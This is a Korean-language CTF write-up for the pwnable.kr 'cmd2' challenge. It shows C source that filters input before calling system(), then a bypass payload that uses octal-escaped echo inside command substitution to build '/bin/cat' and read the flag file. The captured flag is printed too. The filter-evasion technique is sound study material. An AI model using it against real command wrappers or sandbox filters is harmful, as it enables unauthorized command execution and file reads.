 # cmd2 - 9 pt

```text
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
```

## cmd2.c

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

`cmd1`문제와 같이 입력받는 `argv[1]`을 `system()`으로 실행을 한다.
그러나 `PATH`환경변수 및 다른 환경변수도 `memset`으로 초기화되고, 입력값에 필터를 둬서 어떻게든 `flag`를 보지 못하게 막고 있다. 막는 문자열은 `=`, `PATH`, `export`, `/`, `flag` 그리고 `backtick`(`) 이다.

## 아이디어

`echo` 명령어는 ASCII 값을 8진수로 받는다. 이걸 이용해보자

현재 `/`를 입력 문자열에서 필터링 하기 때문에 절대경로로 사용할 파일을 지정할 수가 없다. `echo` 명령어로 8진수로 `/`를 출력하게 하고 그걸 다시 명령어로 사용해 보자.

1. echo "\57bin\57cat"
2. $(echo "\57bin\57cat")
3. $(echo "\57bin\57cat") f*

다음과 같이 입력값을 구성한다. 먼저 위에서 언급했듯이 `echo`로 필터링에 걸리지 않고 `/bin/cat`을 입력한다. 그리고 `$()`로 command substitution을 해서 `echo`로 출력한 값을 명령어로 재사용한다. `f*`로 flag 파일을 명시하면 끝!

[이 친구가 아이디어를 줬습니다 (하트찡긋)](http://einai.tistory.com/entry/%EB%AC%B8%EC%A0%9C%ED%92%80%EC%9D%B4-pwnablekr-cmd2)

[그리고 이 친구를 좀 오랜시간동안 봤습니다](https://www.gnu.org/software/bash/manual/html_node/Bourne-Shell-Builtins.html#Bourne-Shell-Builtins)

## 풀자

```text
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57bin\57cat") f*'
$(echo "\57bin\57cat") f*
FuN_w1th_5h3ll_v4riabl3s_haha
```